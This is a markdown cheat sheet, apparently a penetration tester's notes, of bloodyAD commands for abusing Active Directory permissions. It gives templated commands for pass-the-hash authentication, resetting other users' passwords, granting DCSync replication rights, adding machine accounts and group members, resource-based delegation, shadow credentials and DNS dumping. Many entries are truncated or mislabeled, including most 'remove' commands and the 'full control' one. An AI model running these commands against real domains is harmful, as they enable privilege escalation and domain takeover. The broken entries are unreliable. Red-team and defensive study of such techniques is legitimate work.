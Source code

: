 # bloodyAD

% windows, Active directory
#plateform/linux #target/remote  #cat/ATTACK/DACL-ABUSE

## auth (cred)
```bash
-u <user> -p <password>
```

## auth (pth)
```bash
-u <user> -p :<nt_hash>
```

## auth (ptt)
```bash
-k
```

## auth (cert)
```bash
-c <key_path>:<pem_path>
```

## cross-domain actions
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p
```

## set - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set cross-domain - change user password (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <target_dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set password <target_user> '<password|Jubeaz12345!>' 
```

## set - add/replace/delete target attribute  (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set object <target_dn> <attribute> -v <value>
```

## set - object onwer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```



## add - add computer (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add computer  <computer_name|jubeaz> <computer_password|Jubeaz123+->
```
## add - DCSync right (pth)
https://github.com/CravateRouge/bloodyAD
sAMAccountName, DN, GUID or SID of the trustee
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  dcsync <trustee>
```
## add - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add dnsRecord   
```
## add - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add user <sAMAccountName|jubeaz> <password|Jubeaz123+-> 
```
## add - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  groupMember <group_sam> <target_sam>
```
## add - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```
## add - user (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> add  
```

## get - list children of an object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get  
```
## get - DNS dump records (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get dnsDump --zone <domain>  
```
## get - membership (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get membership <target_sAMAccountName>
```
## get - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get object --resolve-sd <target_sAMAccountName>
```
## get - search (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get search --filter '<ldap_filter|(objectClass=*)>' --attr <comma_sep_attr_list|'*'> --resolve-sd  <search_base|DC=domain,DC=tld>
```
## get - writable (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> get writable
```

## remove - DCSync (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - DNS record (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - full control (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - groupMember (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - object (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - rbcd (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - shadowCredentials (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```
## remove - uac (pth)
https://github.com/CravateRouge/bloodyAD
```bash
bloodyad --host <dc_ip> -d <domain> -u <user> -p :<nt_hash> -v <level|INFO> set  
```


